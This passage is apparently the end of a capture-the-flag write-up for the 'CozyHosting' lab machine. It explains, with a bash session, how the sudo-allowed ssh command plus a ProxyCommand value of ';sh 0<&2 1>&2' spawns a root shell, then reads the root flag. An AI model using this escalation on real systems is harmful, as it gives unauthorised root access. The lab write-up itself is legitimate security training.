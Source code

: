 This exploit first works by utilizing the __ProxyCommand__ option to establish an ssh session through an intermediary host (specified to start a session with itself in this exploit). The ProxyCommand variable is set to one argument ;sh 0<&2 1>&2. This command attempts to execute a shell with input/output redirection, this basically means we can inject a shell into the ssh process and since the process is running as root our injected shell will have root privleges.

When we run the exploit, we are able to get a shell as root!

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
[sudo] password for josh: 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
d4feb0a4d24...
```



Got the flag, see you in the next one!